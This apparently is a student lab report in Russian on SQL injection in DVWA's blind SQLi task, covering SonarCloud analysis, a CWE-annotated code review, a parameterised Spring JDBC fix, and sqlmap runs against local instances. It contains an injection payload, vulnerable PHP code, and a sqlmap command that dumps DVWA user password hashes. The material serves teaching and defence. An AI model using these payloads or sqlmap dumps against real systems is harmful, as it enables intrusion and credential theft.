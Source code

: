# SDLC_Lab_4
Практика №4 по "Разработке безопасного программного обеспечения"

### 1. Необходимо найти участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection на сайте dvwa.local с использованием статического анализатора кода (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)

Для нахождения участка кода, содержащего инъекцию SQL в приложении используем два статический анализатор SonarCloud. 

Для начала загрузим код уровня low с SQL инъекцией на SonarCloud и посмотрим, какие недочеты обнаружит аналитор.

![Анализ SonarCloud low](imgs/sonar_low.png) ![Анализ SonarCloud high](imgs/sonar_high.png)

Можем увидеть, что анализатор указал, где находится уязвимость в программе на уровне low и на уровне high. SonarCloud указывает путь, по которому вредоносные данные могут попасть через пользовательский ввод в запрос к базе данных. В случае с уровнем low вредоносные данные могут попасть напрямую через пользовательский ввод с клавиатуры в поле формы. Например, если ввести "1' OR '1'='1", то приложение сообщит, что пользователь с таким id существует.

В случае с уровнем high, анализатор указал, что вредоносные данные могут попасть в запрос в базу данных через значение id в cookie, так как пользователь также может менять значения cookie, которые отправляются на сервер.

### 2. Проанализировать код и сделать кодревью, указав слабые места

Проанализируем код и укажем в комментариях проблемные участки кода с использованием метрики CWE.

```PHP
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
	$id = $_GET[ 'id' ];

	$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
	//Использование необработанного параметра HTTP запроса в SQL запроса в mysqli_query ведет к уязвимости CWE-89 SQL Injection. (1' OR '1'='1)
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );

	$num = @mysqli_num_rows( $result );
	if( $num > 0 ) {
		$html .= '<pre>User ID exists in the database.</pre>';
	}
	else {
		header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        //CWE-209: Generation of Error Message Containing Sensitive Information. Информацию о ненахождении пользователя в бд - лишняя и может быть использована
        //злоумышленником для получения дополнительных сведений о внутреннем устройстве сервиса
		$html .= '<pre>User ID is MISSING from the database.</pre>';
	}

    //CWE-477: Use of Obsolete Function. В коде используются устаревшие или нерекомендуемые функции, что может вести к уязвимостям. В данном случае используется устаревшая функция mysqli_close
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

### 3. Разработать свою систему вывода информации об объекте на любом языке, исключающий взможность инъекции SQL кода. Возможно исправление участка кода из dvwa.local Требования к системе авторизации. Система вывода информации об объекте должна использовать запросы GET с параметрами, аналогичными из задания Blind SQL injection dvwa

Разработаем аналогичную систему проверки существования id сущности с использованием Java Spring JDBC, где в качестве базы данных будет использоваться in memmory база данных H2. 

Таким образом, скрипт инициализации базы данных имеет следующий вид.

```SQL
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    name VARCHAR(255) NOT NULL
);

INSERT INTO users (id, name) VALUES
    (45, 'Alex'),
    (34, 'Marty');
```

Код, обрабатывающий запрос и выполняющий запрос в базу данных выглядит следующим образом.

```Java
private static final String GET_USER_SQL = "SELECT id, name FROM users WHERE id = ?";
    private static final String IS_SUCCESS_ATTRIBUTE_NAME = "isSuccess";
    private static final String RESULT_ATTRIBUTE_NAME = "result";
    private static final String TEMPLATE_NAME = "page";

    private final JdbcTemplate jdbcTemplate;

    @GetMapping("/")
    public String makeRequest(@RequestParam(value = "id", required = false) String id,
                            @RequestParam(value = "Submit", required = false) String submit,
                            Model model) {
        if (id == null || submit == null) {
            model.addAttribute(IS_SUCCESS_ATTRIBUTE_NAME, null);
            return TEMPLATE_NAME;
        }

        long idParam = 0;
        try {
            idParam = Long.parseLong(id);
        } catch (NumberFormatException e) {
            model.addAttribute(IS_SUCCESS_ATTRIBUTE_NAME, false);
            return TEMPLATE_NAME;
        }
        var result = jdbcTemplate.queryForRowSet(GET_USER_SQL, idParam);
        if (result.next()) {
            model.addAttribute(RESULT_ATTRIBUTE_NAME,
                new String[] {result.getString("id"), result.getString("name")});
            model.addAttribute(IS_SUCCESS_ATTRIBUTE_NAME, true);
        } else {
            model.addAttribute(IS_SUCCESS_ATTRIBUTE_NAME, false);
        }

        return TEMPLATE_NAME;
    }
```

В данном участке кода принимается GET запрос сервером, и выполняется SQL запрос в базу данных с помощью JdbcTemplate, который предоставляет Spring JDBC. 

Перейдем на по адресу `http://localhost:8080` и проверим работу программы.

![JDBC успех](imgs/jdbc_success.png) ![JDBC провал](imgs/jdbc_fail.png)

### 4. Использовать sqlmap для нахождения уязвимости в веб-ресурсе

SqlMap - это инструмент с открытым исходным кодом, который автоматически находит и эксплуатирует уязвимости SQL-инъекций. Для начала используем этот инструмент на приложении DVWA для нахождения его уязвимостей.

Выполним команду в папке с проектом SqlMap. В команде важно указывать cookie действующей сессии.

```Bash
python sqlmap.py --cookie="PHPSESSID=e7d8d3f5f883d69af84e124a7de9ccb3; security=low" -u "http://localhost:4280/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --level=5  --risk=3 -T users --dump
```

Программа начинает свое выполнение.

```Bash
       ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.11.11#dev}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:42:47 /2024-12-12/
```

Спустя какое-то время SqlMap завершает свою работу. Результатом работы программы является sql таблица пользователей, которую удалось извлечь, используя уязвимость SQL инъекций.

```Bash
Database: dvwa
Table: users
[5 entries]
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                         | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       | 2024-11-07 20:39:03 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 | admin     | admin      | 2024-11-08 19:03:50 | 1            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     | 2024-11-07 20:39:03 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      | 2024-11-07 20:39:03 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        | 2024-11-07 20:39:03 | 0            |
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+

[21:43:49] [INFO] table 'dvwa.users' dumped to CSV file 'C:\Users\Алексей\AppData\Local\sqlmap\output\localhost\dump\dvwa\users.csv'
[21:43:49] [INFO] fetched data logged to text files under 'C:\Users\Алексей\AppData\Local\sqlmap\output\localhost'

[*] ending @ 21:43:49 /2024-12-12/
```

Применим SqlMap к разработанной системе вывода информации и убедимся, что использование JdbcTemplate в Spring препятствует эксплуатированию SQL инъекций. Команда для запуска выглядит следующим образом.

```Bash
python sqlmap.py -u "http://localhost:8080/?id=1&Submit=Submit" --batch --banner --level=5 --risk=3
```

Спустя некоторое время SqlMap, проверив все варианты инъекции, сообщает, что совершить SQL инъекцию через заданные параметры не удалос.

```Bash
[02:04:43] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[02:04:43] [INFO] testing 'MySQL UNION query (random number) - 1 to 10 columns'
[02:04:44] [WARNING] parameter 'Host' does not seem to be injectable
[02:04:44] [CRITICAL] all tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 02:04:44 /2024-12-03/
```

Таким образом, используя SqlMap можно убедиться, что разработанная система не подвержена атаком с использованием SQL инъекции.

### 5. Использовать Burp для нахождения уязвимости в веб-ресурсе

Еще одним инструментом для поиска уязвимостей в веб-ресурсе является Burp. С его помощью так же можно находить и эксплуатировать уязвимости SQL инъекции.
